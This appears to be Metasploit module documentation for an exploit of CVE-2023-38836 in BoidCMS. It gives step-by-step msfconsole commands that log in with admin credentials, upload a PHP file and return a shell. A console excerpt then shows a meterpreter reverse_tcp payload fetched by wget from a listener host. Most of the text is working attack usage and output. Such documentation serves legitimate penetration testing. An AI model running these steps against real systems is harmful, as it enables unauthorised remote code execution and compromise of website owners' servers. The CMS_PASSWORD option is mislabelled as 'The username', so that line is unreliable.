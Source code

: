 1. Install BoidCMS
1. Start msfconsole
1. Do: `use exploit/multi/http/cve_2023_38836_boidcms`
1. Do: `set CMS_USERNAME [username]`
1. Do: `set CMS_PASSWORD [password]`
1. Do: `set TARGETURI [target uri]`
1. Do: `run`
1. You should get a shell.

## Options

### CMS_USERNAME
The username for the BoidCMS admin panel.  Default is `admin`

### CMS_PASSWORD
The username for the BoidCMS admin panel.  Default is `password`

### TARGETURI
The root of the web page BoidCMS manages. Empty string by default.

## Scenarios

### BoidCMS on Ubuntu 22.04.1x64

```
msf exploit(multi/http/cve_2023_38836_boidcms) > show options

Module options (exploit/multi/http/cve_2023_38836_boidcms):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CMS_PASSWORD  password         yes       Password
   CMS_USERNAME  admin            yes       Username
   PHP_FILENAME  eI1lHLx.php      yes       The name for the php file to upload
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.5.134.129     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                      yes       The path
   VHOST                          no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      LZfjvRRrNR       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port
```